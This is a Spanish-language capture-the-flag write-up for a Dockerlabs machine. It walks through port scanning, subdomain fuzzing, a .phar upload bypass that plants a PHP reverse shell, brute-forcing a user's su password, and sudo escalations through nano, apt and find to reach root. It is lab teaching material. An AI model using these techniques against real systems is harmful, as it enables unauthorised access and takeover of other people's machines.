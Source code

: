# Writeup

## Levantar la máquina

![captura-levantar](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/538dd08e-411a-4379-8ad0-2c2ac5774247)

## Conectividad con la máquina atacante

Vemos que hay conectividad con la máquina y sabemos que es Linux por el **TTL**, que es **64**. Aunque no siempre es fiable.

![captura-ping](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f83d4bf7-cf04-416f-bcf8-8c6b65d7cad9)

## Escaneo de puertos

Usamos la herramienta **nmap** para el escaneo de puertos.

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN all`

Este comando lo que hace es buscar todos los puertos abiertos (1-65535) (`-p-`), lo hace de manera sigilosa (`-sS`), busca la versión de los servicios ( `-sV`), de manera rápida(`--min-rate=5000`), desactiva la resolución DNS para evitar problemas(`-n`), utiliza triple verbose para que tengamos más detalle del escaneo (`-vvv`)y omite la detección de host(`-Pn`). Lo guarda en el fichero all (`-oN all`).

![captura-escaneo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b1f3a44d-2a98-41a0-b1e8-f1206e26995d)

Puertos **abiertos**

Puerto **80 -> HTTP**

## Fichero /etc/hosts

Como podemos ver, la página no resuelve ya que comprobamos con el reporte de **nmap** que tiene un dominio llamado **hidden.lab**.
Por los tanto lo añadimos al fichero /etc/hosts.

![captura-host](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3cb44c48-71bd-4ca2-ae82-49127d023bf3)

Ahora si vemos que resuelve bien la página.

![captura-cafe](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/979900f2-c8cf-475b-8611-a7e378db6f98)

## Fuzzing

Para empezar hago fuzzing para conocer directorios que cuelguen de la raiz pero veo que no hay ninguno relevante por lo que se me ocurre a hacer fuzzing de subdominios con la herramienta **wfuzz** y encuentro el siguiente.

`wfuzz -c --hl=9 -w /usr/share/wordlist/SecLists/Discovery/DNS/subdomain-top1million-110000.txt -H "Host:FUZZ.hidden.lab" -u 172.17.0.3`

![captura-subdominio](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1aed61f6-3fe2-428d-97b9-e526fa6f3478)

Y lo volvemos a añadir al fichero **/etc/hosts** para que pueda resolver bien.

![captura-sub](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8bb202aa-e2f4-4cf0-bb0f-bbec127a6950)

Vemos que podemos subir archivos, pero solo con extensión PDF.

![image](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1706dce2-19dd-4e65-8d48-390d93017ce9)

Busco por Internet extensiones que permitan **php** y tras probar extensiones encuentro en HackTricks la extensión **[.phar](https://book.hacktricks.xyz/pentesting-web/file-upload)**.

Por lo que puedo usar la herramienta **[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)** para conseguir una reverse shell.

Editamos el archivo y ponemos en la IP, la nuestra, la de Kali Linux, es decir, la atacante, y el puerto que vamos a utilizar, en mi caso, el **443**.

![captura-php](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f88361b3-3166-443b-b44e-94700530f8e6)

Y ahora le cambiamos la extensión e intentamos subirlo. Para cambiar la extensión podemos hacer uso del **mv**

`mv php-reverse-shell.php  php-reverse-shell.phar`

¡¡ IMPORTANTE !!

Es importante que en la esquina inferior derecha pongais todos los archivos, porque sino, no os saldrá.

![captura-todos](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/b8d7034f-f726-432a-a8d7-87802de08f34)

Una vez subido, tenemos que saber donde se ha subido, para ello podemos volver a hacer fuzzing con el nuevo subdominio para saber donde se ha subido.

![captura-uploads](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/15c1573c-f9ca-4da2-ab3e-e40915e73f3b)

Entramos y vemos que si está ahí subido, entonces ahora hacemos uso del **nc** para obtener la reverse shell.

![captura-nc](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6e2811e0-efbe-4958-9ee3-893a5a3a1178)

Y si se queda cargando significa que la hemos obtenido.

![captura-reverse](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/8b69b9ae-130f-42af-907b-590ee849b5c2)

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty rows 41 columns 189`

![captura-bonito](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/df86f70c-038f-44f5-bcef-b928e9f1ac76)

Tras intentar buscar binarios con permisos SUID, hacer uso del `sudo -l` etc, no encuentro nada y decido hacer ataque de fuerza bruta con usuarios del sistema.

![captura-passwd](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/adf52a68-0a4d-4f54-8265-680161f2177e)

Vemos que existen **cafetero, john, bobby**.

Subimos un script en bash que hace ataque de fuerza bruta con diccionario, para ello, he acortado el rockyou.txt a 200 palabras ya que no me dejaba subirlo más grande.

`head -n 200 rockyou.txt > rockyou_200.txt`

Subimos el diccionario.

El script que voy a utilizar es este -> [Linux-Su-Force](https://github.com/Maalfer/Sudo_BruteForce/blob/main/Linux-Su-Force.sh)

Subimos el script.

![captura-todo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/77c89cff-653e-48c0-a52d-e960ed171bc6)

Ahora volvemos a la reverse shell y ejecutamos el script.

Le damos permisos y ejecutamos.

`chmod +x Linux-Su-Force.sh`

`bash Linux-Su-Force.sh cafetero rockyou_200.txt`

![captura-cafetero](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/a2757b05-2043-48fe-b7bc-ca44d01336c1)

Ahora entramos como cafetero y vemos que podemos usar con **sudo**.

![captura-nano](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/f3b625ce-404f-45b9-83fe-f98ebd92e2a0)

Hago uso de la herramienta [Searchbins](https://github.com/r1vs3c/searchbins) que está basada en la página [GTFOBins](https://gtfobins.github.io/).

![captura-searchbins](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/1f84a783-3698-4452-aaf4-01c6953c8fa1)

Y lo ponemos en práctica.

![captura-john](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/152e84ab-2376-4dc4-8307-312b6362bacb)

`sudo -u john /usr/bin/nano`

`^R -> (Ctrl R) ^X -> (Ctrl X`

`reset; sh 1>&0 2>&0`

Vemos que funciona, así que ahora vamos a por el siguiente usuario.

![captura-bobby](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6f5efc27-2600-42bf-bb92-d3ddbeb9b24e)

Hacemos uso de la herramienta.

![captura-apt](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/3f6400df-a17c-4c28-9ed8-bfa4a182ede3)

sudo -u bobby /usr/bin/apt changelog apt

Probamos el primero...

![captura-bobby2](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/6aaecb49-e7ac-4f82-897c-b720dd9906f8)

Ganamos acceso a bobby. Vamos a por el siguiente que ya es root.

![captura-roo](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/c1f09b1d-8bb1-49ba-8f7d-0cacde6c71d4)

Vemos que podemos ejecutar como root el binario find, por lo que buscamos en nuestra herramienta.

`sudo -u root /usr/bin/find . -exec /bin/sh -p \; -quit`

![captura-find](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/2f784669-2d72-4ce7-a668-73f1b2f806ba)

Y vemos que funciona correctamente.

![captura-root](https://github.com/Alv-fh/Dockerlabs_machines_writeups/assets/109484163/9ec161a1-dbd6-48f9-a25a-6d3376838d7e)

Ya somos root!!
